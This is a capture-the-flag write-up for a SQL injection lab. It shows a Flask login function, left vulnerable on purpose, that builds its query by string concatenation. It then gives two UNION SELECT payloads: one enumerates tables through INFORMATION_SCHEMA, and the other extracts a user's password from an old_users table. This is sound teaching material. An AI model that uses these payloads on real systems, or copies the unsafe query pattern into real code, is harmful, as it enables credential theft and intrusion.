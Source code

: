 # Mission 0 ~ SQL injection
## Goal and instructions
We have implemented a new version of our web app. It is badly designed, and implemented even worse, but you can go on and test it! P.S. One of our not-so-experienced developers has wiped the users table and we have lost all data, but we should have a copy somewhere in the database :). Can you retrieve the password of user Jacquelyn?
## Web app structure
The website is structured with a simple login page and a second page, after login, where the login username is shown.
## Code overview
We will focus on the vulnerable part of the source code, the login function performs an SQL query to validate username and password and return the first 2 results. <br>
the query is prepared through string concatenation, without filtering the user input, and so is vulnerable to SQL injection.
```
@app.route("/login", methods=['POST'])
def login():
    global AUTHENTICATED

    username = request.form['id']
    pw = request.form['pw']

    try:
        query = f"SELECT * FROM users WHERE username='{username}' AND password='{pw}';"
        db_cur.execute(query)
        query_result = db_cur.fetchone()

        print(query_result)

        if query_result is not None:
            id = query_result[0]
            user = query_result[1]
        else:
            return redirect("/")
        
    except Exception as e:
        user = "DB ERROR"
        print(e)

    AUTHENTICATED = True
    return redirect(f"/personal_page?id={id}&username={user}")
```
## Solution
As described we can see the query result, therefore we want to modify the query, through SQL injection, in a way to put desired values in the first 2 results of the query, to be able to read them. <br>
First, we want to discover the table where the user is saved, we insert the following payload in the password field in order to substitute the username with a table name.
> **note:** We can *"navigate"* by modifying the offset value through different tables.
```
prova2' UNION SELECT 1, TABLE_NAME, 'tmp' FROM INFORMATION_SCHEMA.TABLEs where TABLE_SCHEMA='db'
LIMIT 1 OFFSET 1; --
```
We found that the username is saved in the *old_users* table.
Now we want to retrieve the user password, writing the following payload in the password field to substitute the username with it.
```
prova2' UNION SELECT 0, password, 'tmp' FROM old_users WHERE username = 'Jacquelyn' LIMIT 1 OFFSET 1; --
```
> **note:** in order to set properly the UNION operator the original query and the payload have to match in the structure.